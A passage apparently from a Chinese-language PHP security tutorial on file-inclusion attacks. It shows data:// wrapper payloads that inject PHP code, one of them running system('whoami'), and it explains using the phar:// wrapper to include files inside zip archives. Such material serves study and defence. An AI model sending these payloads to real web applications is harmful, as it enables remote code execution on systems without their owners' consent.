 ```
?file=data:text/plain,<?php phpinfo();?>
?file=data:text/plain,<?php system('whoami');?>
?file=data:text/plain;base64,PD9waHAgcGhwaW5mbygpOz8%2b
```

![](img/12.png)

![](img/13.png)


#### phar://

phar:// 数据流包装器自PHP 5.3.0起开始。这个参数是就是`php解压缩包`的一个函数，不管目标文件后缀是什么，都将其当做压缩包来解压

利用条件：

```
PHP>= 5.3.0
```

用法格式：

```
?file=phar://压缩包/内部文件
```

> 注意：绝对路径或相对路径均可；压缩包只能使用`zip协议`压缩

![](img/14.png)
